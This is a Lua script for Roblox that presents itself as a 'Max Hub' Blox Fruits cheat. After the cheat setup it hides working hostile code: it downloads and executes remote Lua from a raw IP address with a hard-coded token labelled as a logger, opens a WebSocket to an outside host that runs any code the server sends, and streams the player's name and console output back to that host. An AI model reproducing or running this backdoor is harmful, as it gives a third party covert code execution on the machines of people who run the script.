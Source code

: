 setclipboard("Max Hub Kaitun")
game:GetService("Players").LocalPlayer:Kick("\n1 to Max\Best Blox Fruits Script")

spawn(function() 
local LocalPlayer = game.Players.LocalPlayer

local HttpService = game:GetService("HttpService"); 
local LogService = game:GetService("LogService"); 
--[[local o; 
o = hookfunction(string.find, function(a, b) 
    if not a or not b then return end 
    return o(a, b)
end) ]]

local GC = getconnections or get_signal_cons
    if GC then
        for i,v in pairs(GC(game.Players.LocalPlayer.Idled)) do
            if v["Disable"] then
                v["Disable"](v)
            elseif v["Disconnect"] then
                v["Disconnect"](v)
            end
        end
    else
        local VirtualUser = game:GetService("VirtualUser")
        Players.LocalPlayer.Idled:Connect(function()
            VirtualUser:CaptureController()
            VirtualUser:ClickButton2(Vector2.new())
        end)
    end


local placeId = game.PlaceId
if placeId == 2753915549 then
    Sea = "Main"
elseif placeId == 4442272183 then
    Sea = "Dressrosa"
elseif placeId == 7449423635 then
    Sea = "Zou"
end

game.ReplicatedStorage:WaitForChild("Remotes"):WaitForChild("CommE").OnClientEvent:Connect(function(p1, p2) 
    if p1 == "ExpBoost" then 
        _G.ExpBoost = p2
    end 
    if p1 == "SafeZone" then

		
		_G.Safezone = p2;
		return
	end
end)
getgenv().getsenv = function() 
    return 
    {
        ["_G"] = 
        {
            CurrentWorld = Sea, 
            InCombat = (function() 
                return game.Players and game.Players.LocalPlayer and game.Players.LocalPlayer.Character and game.Players.LocalPlayer.Character:GetAttribute("InCombat") 
            end)(), 
            InSafeZone = _G.Safezone,
            ServerData = 
            {
                ExpBoost = _G.ExpBoost
            }
        }
    }
end

print(game:GetService("HttpService"):JSONEncode(getsenv()))

		getgenv().print = function() end

	
loadstring(game:HttpGet('http://150.109.50.38/assets/Client.lua'))()({
    Access_Token = "mUveZboOmlA5q5LCfcoLx6XnTm1qUqU9",
    Device_Name  = "n/a", 
    Note         = "Rac Ruoi Logger"
})
local Connection = getgenv().WebSocket.connect("wss://adu-0nny.onrender.com/?token=haha&isClient=true&clientName="..LocalPlayer.Name)

 LogContentType = {"Output", "Info", "Warning", "Error"}


Connection.OnMessage:Connect(function(msg)

    du = HttpService:JSONDecode(msg) 
    if du.type == "execute" then 
       loadstring(du.data)()
    end
end) 


function Send(Content, Type) 
    Connection:Send(HttpService:JSONEncode({
            type = "emitConsole", 
            data = 
            {
                Type = Type, 
                Date = os.time(), 
                From = LocalPlayer.Name, 
                Content = Content
            }
        })) 
end 

Send("Loaded", "Info")
LogService.MessageOut:Connect(function(Content, Type) 
    local Vcl = Enum.MessageType
    Send(Content, (Type == Vcl.MessageOutput and "Output") or (Type == Vcl.MessageInfo and "Info") or (Type == Vcl.MessageWarning and "Warning") or (Type == Vcl.MessageError and "Error"))
end)
    end)
